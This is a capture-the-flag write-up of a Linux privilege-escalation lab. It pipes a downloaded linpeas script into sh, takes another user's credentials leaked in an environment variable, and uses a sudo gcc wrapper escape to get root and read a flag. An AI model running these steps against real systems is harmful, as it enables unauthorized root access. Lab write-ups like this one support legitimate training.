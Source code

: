 # CTF Writeup:  Bit by Bit

## Challenge Overview
* **Category:** Digital Forensics
* **Difficulty:** [Easy]
* **Description:** We have access to a linux box, need to find vulnerabile configuration to escalate privileges and find flag. 


## Tools Used

- [Linpease](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [gtfobins](https://gtfobins.github.io/)
- [bash]

---

## Solution

Usual disclaimer here: the following solution was the one that worked and there was some trial and error to find it. Omitting those dead-ends for brevity.  

### Step 1: Initial Access

```bash
ssh Pentester@<ip>

# no response
```

```bash
nmap -sV <ip>

#shows diff port
```

```bash
ssh -p 2222 Pentester@<ip>
```


Challenge requires privilege escalation so let's go script kiddie and fetch a tool to search for privilege escalations (`privesc` as it's call in `the biz`):

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

```

Under Environment we see `JOAN_TEMPORARY_CREDS=jojocreds1`

Well well well. For reasons mysterious there are temp creds for another user in our environment of our account. Let's try sshing into their account and see what permissions they have. Fingers crossed they're in sudoers and we can use their privesc ours **sinister laughing**. Which account though? 

```bash
ls /home/
# shows JOan 
```
Its probably the joan account. 

```bash

ssh joan@localhost
# no response
```

---

### Step 2: Priv Esc

Now we have access to joan's account, see what groups she's in

```bash
groups
Joan sudo
```

Cool, now let's add our pentester account to sudoers

```bash
sudo usermod -aG sudo Pentester
Sorry, user Joan is not allowed to execute '/usr/sbin/usermod -aG sudo Pentester' as root on dad5f987a15f."
```

Rubbing the brow here as I was heading for a PB for unfinished challenges in this event. Thankfully team-work makes the dream work and I looked to the east for a wizard saviour:

![image](https://github.com/user-attachments/assets/ae3a0073-47c4-4fd2-8951-ded3391ab218)

Lol, thanks wizard 🧙 10 seconds, one command, and a URL later: 

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

[https://gtfobins.github.io/gtfobins/gcc#sudo]

Doopdeedoop:

```bash
gcc -wrapper /bin/sh,-s .
sudo usermod -aG sudo Pentester
exit
exit
# to log out the pentester. log back in
```


```bash
ssh -p 2222 Pentester@<ip>
```

```bash
groups
Pentester sudo
```

See what command we can run
```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

Run that again. 

---

### Step 3: Flag Retrieval

Now we have root, the flag's gotta be here somewhere, normally just use find (looking for flag.txt) or grep (looking for FLAG within a file) on the entire file system. 

```bash
find / -name flag.txt -type f
/root/flag.txt
cat /root/flag.txt
FLAG{7H15_SUDO_C00K3D_R007}
```


![image](https://github.com/user-attachments/assets/08fef0f2-78d4-4051-baac-8a8a62515e4a)


---

## Notes

- Don't be afraid to ask for help when you get blocked. Difficult for you can be easy for someone else and vice versa. 
- As a team, set up some tools in comms (like threads in channels) to share progress on challenges.
- Linpeas and gftobins are l337h4x0r

---



